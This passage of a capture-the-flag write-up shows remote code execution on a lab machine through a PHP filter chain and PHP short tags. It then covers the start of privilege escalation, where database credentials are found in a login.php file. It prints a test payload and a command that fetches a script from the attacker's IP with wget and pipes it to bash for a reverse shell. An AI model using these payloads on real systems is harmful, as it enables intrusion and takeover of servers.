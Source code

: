 {% embed url="https://github.com/synacktiv/php_filter_chain_generator" %}

This had some form of length barrier that was crashing the request. As such, we can use **PHP Shorthand Code,** which is basically a short form for PHP code. This involves the usage of the `<?=` tags. Then, since we have RCE, we can host the shell on my web server instead.

<figure><img src="../../../.gitbook/assets/image (29) (2).png" alt=""><figcaption></figcaption></figure>

Testing this out, I used this command ``<?= `id` ?>.``

This worked out pretty well as I was able to see the output here.

<figure><img src="../../../.gitbook/assets/image (38) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can then replace the command with ``<?=`wget -O - 10.10.14.152/b|bash` ?>``

Now, we have a reverse shell as `www-data`.

<figure><img src="../../../.gitbook/assets/image (11) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation to Victor

Victor was the only user on this machine, and we needed to find his credentials or something.

### MySQL Creds

Within the `~/developers/login.php` file, I found some credentials.

<figure><img src="../../../.gitbook/assets/image (27) (2) (2).png" alt=""><figcaption></figcaption></figure>
